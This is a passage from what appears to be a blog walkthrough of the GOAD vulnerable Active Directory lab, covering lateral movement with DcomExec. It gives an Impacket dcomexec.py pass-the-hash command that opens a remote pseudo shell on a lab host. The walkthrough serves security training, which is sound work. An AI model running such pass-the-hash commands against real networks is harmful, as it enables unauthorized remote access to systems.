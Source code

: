 ![lateral_atexec_wireshark.png](/assets/blog/GOAD/lateral_atexec_wireshark.png)

#### DcomExec
DecomExec (Distributed Component Object Model):
  - pseudo shell (get the result in files retreived with smb)
  - protocol DCERPC + SMB

```bash
dcomexec.py -hashes ':cba36eccfd9d949c73bc73715364aff5' NORTH/catelyn.stark@192.168.56.11
```

![lateral_dcomexec.png](/assets/blog/GOAD/lateral_dcomexec.png)
